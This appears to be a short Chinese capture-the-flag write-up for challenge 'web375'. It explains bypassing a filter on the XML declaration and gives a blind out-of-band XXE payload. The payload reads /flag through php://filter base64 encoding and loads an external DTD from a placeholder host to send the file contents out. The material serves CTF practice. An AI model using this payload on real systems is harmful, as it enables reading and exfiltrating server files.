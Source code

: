# web375
![](vx_images/344336616493439.png)
仍是不回显
<\?xml version="1\.0"被过滤,直接不写声明或多加空格
```
<!DOCTYPE root [
        <!ELEMENT root ANY >
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
        <!ENTITY % dtd SYSTEM "http://x.x.x.x/test.dtd">
        %dtd;
        %send;
        ]>
<root></root>
```
![](vx_images/300456557718961.png)